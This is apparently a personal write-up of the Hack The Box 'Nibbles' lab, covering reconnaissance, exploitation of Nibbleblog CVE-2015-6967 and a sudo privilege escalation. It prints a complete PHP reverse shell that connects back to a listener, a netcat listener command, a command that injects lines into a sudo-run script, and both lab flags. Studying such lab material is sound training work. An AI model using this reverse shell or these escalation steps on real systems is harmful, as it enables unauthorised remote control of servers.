 #easy 

## 0. **Lab infos**

**Difficulty :** Easy
**Name :** Nibbles
**IP** : 10.129.96.84
**Objectives :** Get user and root flags
**OS :** Linux

##### **Conclusion**
**Time :** 
	**Start :** 21.04.2025 / 18:13
	**Break at/to :** 
	**Finish :** 21.04.2025 / 19:30
**Satisfaction :**  
### 1. **Reconnaissance

We start with an #nmap scan :

```BASH
nmap -A 10.129.96.84

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

![[Pasted image 20250421181609.png]]

On the inspector we have a comment who says /nibbleblog/

![[Pasted image 20250421181955.png]]

We make a gobuster scan :

```BASH
─[eu-dedivip-1]─[10.10.14.117]─[bobinette@htb-3oaajlzaes]─[~]
└──╼ [★]$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.129.96.84/nibbleblog/ -x html,php,db,txt,js,log,config,py,bdd
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.96.84/nibbleblog/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,db,txt,html,log,config,py,bdd,js
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 303]
/.php                 (Status: 403) [Size: 302]
/index.php            (Status: 200) [Size: 2987]
/sitemap.php          (Status: 200) [Size: 402]
/content              (Status: 301) [Size: 325] [--> http://10.129.96.84/nibbleblog/content/]
/themes               (Status: 301) [Size: 324] [--> http://10.129.96.84/nibbleblog/themes/]
/feed.php             (Status: 200) [Size: 302]
/admin                (Status: 301) [Size: 323] [--> http://10.129.96.84/nibbleblog/admin/]
/admin.php            (Status: 200) [Size: 1401]
/plugins              (Status: 301) [Size: 325] [--> http://10.129.96.84/nibbleblog/plugins/]
/install.php          (Status: 200) [Size: 78]
/update.php           (Status: 200) [Size: 1622]
/README               (Status: 200) [Size: 4628]
/languages            (Status: 301) [Size: 327] [--> http://10.129.96.84/nibbleblog/languages/]
/LICENSE.txt          (Status: 200) [Size: 35148]
```

![[Pasted image 20250421183007.png]]

![[Pasted image 20250421183246.png]]

On the admin.php page we try admin:nibbles and it's work.

We find a CVE (2015-6967) so let's try
## 2. **Weaponization

with #Metasploit 

```BASH
set RHOSTS 10.129.96.84
set TARGETURI /nibbleblog/
set USERNAME admin
set PASSWORD nibbles
```

But it's telling us to try manualy.

SO we create image.php

```PHP
<?php
// Réverse shell PHP minimal
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.117';  // votre IP d'écoute
$port = 4444;  // votre port d'écoute
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

// ouverture du socket
if (!function_exists('stream_set_blocking')) {
    die("stream_set_blocking() manquante");
}
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
    die("$errstr ($errno)");
}

// redirection des descripteurs
$fds = array($sock, STDIN, STDOUT, STDERR);
stream_set_blocking($sock, false);
stream_set_blocking(STDIN, false);

// boucle principale
while (1) {
    // lecture depuis le socket
    if (feof($sock)) break;
    $read = array($sock);
    $num_changed_streams = stream_select($read, $write_a, $error_a, null);

    if (in_array($sock, $read)) {
        $input = fgets($sock, $chunk_size);
        if (!$input) break;
        // exécution de la commande et renvoi du résultat
        $output = shell_exec($input);
        fwrite($sock, $output);
    }
}
fclose($sock);
?>
```

## 3. **Delivery

![[Pasted image 20250421185409.png]]

## 4. **Exploitation

```BASH
┌─[eu-dedivip-1]─[10.10.14.117]─[bobinette@htb-3oaajlzaes]─[~]
└──╼ [★]$ nc -lvnp 4444
```

And once we go to : 
http://10.129.96.84/nibbleblog/content/private/plugins/my_image/image.php

we have our #RCE 

## 5. **Installation

## 6. **Command and Control

## 7. **Actions on Objectives

```BASH
ls /home/nibbler
personal.zip
user.txt
cat /home/nibbler/user.txt           
52e5f38017a66a6418f66d0036540450
```

So after extracting the zip file into the /home/nibbler/ and enter this command into the script :

```BASH
echo -e "\n# Injection pour lister /root\ncat /root/root.txt\n" >> /home/nibbler/personal/stuff/monitor.sh
```

and execut the script with sudo. We have this output :

```BASH
sudo /home/nibbler/personal/stuff/monitor.sh
total 32
drwx------  4 root root 4096 Apr 21 12:02 .
drwxr-xr-x 23 root root 4096 Dec 15  2020 ..
-rw-------  1 root root    0 Dec 29  2017 .bash_history
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
drwx------  2 root root 4096 Dec 10  2017 .cache
drwxr-xr-x  2 root root 4096 Dec 10  2017 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-------  1 root root 1091 Dec 15  2020 .viminfo
-r--------  1 root root   33 Apr 21 12:02 root.txt
b5efc41bc1be517b666fdc6c15890208
```